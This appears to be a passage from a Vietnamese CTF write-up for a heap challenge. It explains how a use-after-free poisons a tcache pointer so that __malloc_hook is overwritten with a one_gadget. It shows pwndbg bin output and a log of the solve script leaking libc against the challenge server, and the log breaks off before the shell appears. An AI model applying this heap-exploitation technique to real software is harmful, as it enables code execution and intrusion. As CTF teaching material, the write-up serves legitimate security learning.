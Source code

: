 - Sau đó mình dùng bug UAF để overwrite fd của tcache thành địa chỉ của __malloc_hook, rồi malloc thêm 1 chunk rác thì chunk tiếp theo được malloc chính là vùng của __malloc_hook, ta chỉ cần nhập content là one_gadget ⇒ Ghi đè __malloc_hook thành công.

    ```c
    pwndbg> bin
    tcachebins
    0x90 [  7]: 0x5555557575c0 —▸ 0x7ffff7dcdc30 (__malloc_hook) ◂— 0x0
    fastbins
    0x20: 0x0
    0x30: 0x0
    0x40: 0x0
    0x50: 0x0
    0x60: 0x0
    0x70: 0x0
    0x80: 0x0
    unsortedbin
    all: 0x555555757640 —▸ 0x7ffff7dcdca0 (main_arena+96) ◂— 0x555555757640 /* '@vuUUU' */
    smallbins
    empty
    largebins
    empty
    pwndbg>
    ```

- Có 1 lưu ý nhỏ là ở hàm edit, ta sẽ edit theo strlen() thì khi free, fd của tcache sẽ trỏ đến heap được free sau nó nên sẽ chỉ có 6 bytes ⇒ Ta chỉ có thể edit được 6 bytes vừa đủ cho 1 địa chỉ vì 2 bytes "\x00\x00" đã được set mặc định.
- Get shell.

    ```c
    dinhvu@LAPTOP-63U3K24D:/mnt/c/Users/ADMIN/Desktop/fword/notes$ python2 solve.py
    [+] Opening connection to 40.71.72.198 on port 1235: Done
    [*] '/mnt/c/Users/ADMIN/Desktop/fword/notes/task2'
        Arch:     amd64-64-little
        RELRO:    Full RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      PIE enabled
    [*] '/mnt/c/Users/ADMIN/Desktop/fword/notes/libc-2.27.so'
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      PIE enabled
    [*] Add success 0
    [*] Add success 1
    [*] Add success 2
    [*] Add success 3
    [*] Add success 4
    [*] Add success 5
    [*] Add success 6
    [*] Add success 7
    [*] Add success 8
    [*] Delete success 0
    [*] Delete success 1
    [*] Delete success 2
    [*] Delete success 3
    [*] Delete success 4
    [*] Delete success 5
    [*] Delete success 6
    [*] Delete success 7
    leak_arena:  0x7f194e86fca0
    libc_base:  0x7f194e484000
    one_gadget:  0x7f194e4d3432